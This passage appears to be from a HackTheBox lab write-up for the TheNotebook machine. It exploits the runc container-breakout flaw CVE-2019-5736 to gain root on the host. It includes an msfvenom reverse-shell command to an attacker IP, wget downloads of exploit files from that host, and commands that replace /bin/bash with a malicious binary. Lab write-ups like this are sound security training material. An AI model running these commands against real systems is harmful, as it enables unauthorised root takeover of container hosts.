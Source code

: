 ![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-12-HackTheBox-TheNotebook/2021-09-12-HackTheBox-TheNotebook%2002:28:02.png)

We found a exploit in exploitdb for this version of docker

[runc < 1.0-rc6 (Docker < 18.09.2) - Container Breakout (2)](https://www.exploit-db.com/exploits/46369)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-12-HackTheBox-TheNotebook/2021-09-12-HackTheBox-TheNotebook%2002:30:24.png)

## CVE-2019-5736

So, let's try to exploit it.

Reading the exploit and some write-ups on the internet we get that there is a vulnerability in Docker before 18.09.2 which allows user to perform root commands in it and give root access on the host. The main idea here is from the container to overwrite the `/bin/sh #!/proc/self/exe`, which is a symbolic link to the binary which started the container process. We'll write to the runc binary and point it to the payload. When someone started the container, the payload will be triggered.

We'll use this [Exploit](https://github.com/twistlock/RunC-CVE-2019-5736) from GitHub

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-12-HackTheBox-TheNotebook/2021-09-12-HackTheBox-TheNotebook%2007:24:45.png)

We need to overwrite the `new_runc` file, which is going to be executed

```sh
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.20 LPORT=5555 -f elf -o new_runc
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-12-HackTheBox-TheNotebook/2021-09-12-HackTheBox-TheNotebook%2007:25:43.png)

Now we can exploit it

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-12-HackTheBox-TheNotebook/2021-09-12-HackTheBox-TheNotebook%2007:28:05.png)

We download the files to the container

```sh
wget 10.10.14.20:8000/new_runc
wget 10.10.14.20:8000/bash_evil
wget 10.10.14.20:8000/overwrite_runc
wget 10.10.14.20:8000/replace.sh
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-12-HackTheBox-TheNotebook/2021-09-12-HackTheBox-TheNotebook%2007:30:01.png)

Now we execute the things on the box

```sh
cp /bin/bash /bin/bash_original
chmod +x bash_evil over* repl* new*
cp bash_evil /bin/bash
./replace.sh
```

We execute the exploit

